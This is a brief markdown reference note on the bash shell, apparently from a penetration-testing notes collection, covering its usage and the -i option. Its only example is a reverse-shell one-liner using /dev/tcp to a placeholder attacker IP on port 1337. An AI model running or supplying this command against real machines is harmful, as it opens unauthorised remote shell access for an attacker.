 #commands 

**bash**, short for 'bourne again shell' is a Unix shell and command language.

## Usage 

	bash

Preceding any command with **bash** opens a shell.

## Notable Options

	-i

Makes the shell interactive

## Example

The following command creates a reverse shell on a target machine in an interactive **bash**.

	bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/1337 0>&1
